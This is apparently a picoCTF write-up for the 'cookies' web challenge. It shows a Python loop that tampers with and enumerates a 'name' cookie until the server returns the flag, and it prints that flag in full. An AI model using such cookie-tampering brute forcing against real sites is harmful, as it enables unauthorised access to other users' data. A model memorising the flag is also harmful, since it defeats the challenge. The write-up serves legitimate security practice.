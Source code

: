 # Web Exploitation

## cookies

```
Description
Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:29649/
```

**Approach:**

The challenge description suggested experimenting with cookies, specifically, the `name` cookie's value. I started by exploring the site to understand how it handled cookies.

![image](https://github.com/user-attachments/assets/15592894-8d32-4f7c-9751-e72b03b21198)

Entering common cookie names in the search bar on the main page resulted in the `name` cookie's value changing from `-1` to values like `0`, `1`, etc.

I entered `snickerdoodle` as input which changed `name` cookie's value to 0:

![image](https://github.com/user-attachments/assets/61b9a475-05a3-4eb4-95c0-faa637e681fa)

When I changed `name` cookie's value to 1:

![image](https://github.com/user-attachments/assets/a2cc02db-17eb-4e10-b029-5178efd90102)

`That is a cookie! Not very special though...` message was coming till `name` = 28

To expedite the process, I wrote a Python script using the `requests` library to incrementally set the "name" cookie value and checked for the flag.

**Script:**

```
import requests

# URL for the check page
url = "http://mercury.picoctf.net:29649/check"

# Start value for the "name" cookie
cookie_value = 0

while True:
    # Set the cookie with the current value
    cookies = {'name': str(cookie_value)}
    
    # Make a GET request with the cookie set
    response = requests.get(url, cookies=cookies)
    
    # Check if the flag or unique message is found in the response
    if "picoCTF{" in response.text:
        print("Flag found!")
        print(response.text)
        break
    else:
        print(f"Tried cookie 'name={cookie_value}', no flag found.")
    
    # Increment the cookie value
    cookie_value += 1
```

**Output:**

![image](https://github.com/user-attachments/assets/986fa92c-d208-447f-9e60-0962d3e9d975)

By running the script, I observed that the flag was found at `name = 18`

When I changed `name` cookie's value to 18:

![image](https://github.com/user-attachments/assets/08915b6a-052e-4b3d-ae94-84b4ef1cde67)

**Flag:**

```
picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}
```

**Incorrect Tangents:**

Initially, I manually entered different values for the `name` cookie but realized that it was too inefficient. This led me to try a script to systematically check the response at different values of the `name` cookie, which ultimately gave me the flag quickly and easily.
